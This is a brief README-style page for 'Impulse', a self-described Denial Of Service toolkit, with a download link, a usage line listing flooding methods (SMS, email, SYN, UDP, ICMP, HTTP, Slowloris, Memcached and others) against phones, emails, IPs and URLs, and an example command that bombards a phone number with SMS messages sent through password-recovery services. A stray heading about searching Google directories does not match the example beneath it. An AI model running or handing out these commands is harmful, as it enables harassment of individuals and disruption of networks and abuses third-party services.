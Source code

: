 # Impulse  
Denial Of Service (DOS) ToolKit  
  
### Download
https://github.com/LimerBoy/Impulse via git clone https://github.com/LimerBoy/Impulse

### Usage
> impulse [--method SMS/EMAIL/NTP/SYN/UDP/POD/ICMP/HTTP/Slowloris/Memcached] [--target phone/email/ip/ip:port/url] [--time seconds] [--threads number]  
  
> impulse [--help]
  
### Examples
##### Search Google Diectories 
```bash
# Send multiple sms from password recovering services
impulse --method SMS --time 20 --threads 16 --target +7999999999
```


